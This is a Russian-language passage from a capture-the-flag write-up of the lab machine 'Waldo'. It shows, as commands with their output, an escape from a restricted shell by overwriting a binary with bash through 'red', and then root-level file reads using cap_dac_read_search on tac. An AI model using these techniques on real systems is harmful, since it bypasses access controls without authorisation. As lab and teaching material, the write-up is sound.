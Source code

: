Поэтому следующим нехитрым способом совершаем дерзкий побег из ограниченного шелла:
```text
monitor@waldo:~$ red /bin/bash
1099016
w /home/monitor/app-dev/logMonitor
1099016
q
monitor@waldo:~$ logMonitor
tmp.YRYYiLMWl9: dircolors: command not found
monitor@waldo:~$ ls /
bin  boot  dev  etc  home  initrd.img  initrd.img.old  lib  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  vmlinuz  vmlinuz.old
```

```text
monitor@waldo:~$ export PATH='/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin'
monitor@waldo:~$ whoami
monitor
monitor@waldo:~$ id
uid=1001(monitor) gid=1001(monitor) groups=1001(monitor)
monitor@waldo:~$ uname -a
Linux waldo 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1 (2018-04-29) x86_64 GNU/Linux
```

## PrivEsc: monitor → root
### Чтение файлов (Linux Capabilities)
Побродив еще немного по машине и повнимательнее изучив исполняемый файл `/home/monitor/app-dev/v0.1/logMonitor-0.1`, я обнаружил, что на нем висит мандат *CAP_DAC_READ_SEARCH* из арсенала одного из механизмов управления доступом в Линукс — [*Linux Capabilities*](http://man7.org/linux/man-pages/man7/capabilities.7.html "capabilities(7) - Linux manual page"):
```text
monitor@waldo:~$ getcap app-dev/v0.1/logMonitor-0.1
app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei
```

Этот мандат позволяет игнорировать проверки наличия доступа на чтение для файлов и директорий.

`+ei` означает:
  - **e**ffective — используется ядром для проверки права доступа;
  - **i**nheritable — сохраняет право доступа при вызове *fork* и *execve*.

Интересный вводный материал про capabilities [здесь](https://www.incibe-cert.es/en/blog/linux-capabilities-en "Linux Capabilities and how to avoid being root / INCIBE-CERT").

А что если на машине есть еще исполняемые файлы, для которых установлены мандаты capabilities?

Проверить это можно все той же командой `getcap`:
```text
monitor@waldo:~$ getcap -r / 2>/dev/null
/usr/bin/tac = cap_dac_read_search+ei
/home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei
```

Бинго! С помощью `tac` (`cat` наоборот) можем прочитать любой файл, который вздумается:
## root.txt
```text
monitor@waldo:~$ tac /root/root.txt
8fb67c84????????????????????????
```
